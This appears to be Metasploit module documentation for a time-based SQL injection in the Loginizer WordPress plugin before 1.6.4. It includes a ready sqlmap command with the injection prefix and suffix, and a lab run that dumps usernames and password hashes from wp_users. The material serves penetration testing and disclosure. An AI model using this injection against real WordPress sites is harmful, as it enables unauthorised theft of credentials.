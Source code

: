 ## Vulnerable Application

Loginizer wordpress plugin contains an unauthenticated timebased SQL injection in
versions before 1.6.4.  The vulnerable parameter is in the `log` parameter.

Exploitation requires Wordpress after [a87271af60113d46ab3866b1e525a1817bce742d](https://github.com/WordPress/WordPress/commit/a87271af60113d46ab3866b1e525a1817bce742d#diff-05003928101dd60650a6864173792d6fbaaccbd26820d99dbcfff47c5f61322e)

* 5.4 or newer
* 5.5 or newer

Attempts to exploit non-vulnerable versions will likely cause loginizer's blacklist to ban the metasploit IP.

Wordpress has forced updates of the plugin to all servers.  To test this exploit, the server
must not have a connection to the internet.

All versions can be downloaded from [wordress.org](https://wordpress.org/plugins/loginizer/advanced/)
or [1.6.3](https://downloads.wordpress.org/plugin/loginizer.1.6.3.zip)

This module slightly replicates sqlmap running as:

```
python3 sqlmap.py -u http://local.target/wp-login.php --method='POST' --data='log=&pwd=password&wp-submit=Log+In&redirect_to=&testcookie=1' -p log --prefix="', ip = LEFT(UUID(), 8), url = ( TRUE " --suffix=") -- wpdeeply" --dbms mysql --technique=T --time-sec=1 --current-db
```

## Verification Steps

1. Disconnect the server from the internet
1. Install the plugin on wordpress
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_loginizer_log_sqli`
1. Do: `set action [action]`
1. Do: `run`

## Options

### ACTION: List Users

This action lists `COUNT` users and password hashes.

### COUNT

If Action `List Users` is selected (default), this is the number of users to enumerate.
The larger this list, the more time it will take.  Defaults to `1`.

## Scenarios

### Wordpress 5.4.2 with Loginizer 1.6.3 on Ubuntu 20.04 using MariaDB 10.3.22

#### List Users

```
resource (loginizer.rb)> use auxiliary/scanner/http/wp_loginizer_log_sqli
resource (loginizer.rb)> set verbose true
verbose => true
resource (loginizer.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf6 auxiliary(scanner/http/wp_loginizer_log_sqli) > set count 3
count => 3
msf6 auxiliary(scanner/http/wp_loginizer_log_sqli) > run

[*] Checking /wp-content/plugins/loginizer/readme.txt
[*] Found version 1.6.3 in the plugin
[+] Vulnerable version of Loginizer detected
[*] {SQLi} Executing (select group_concat(XMjgCKOLn) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) XMjgCKOLn from wp_users limit 3) ZtmrJNCuJ)
[*] {SQLi} Time-based injection: expecting output of length 124
[+] wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1
 editor      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
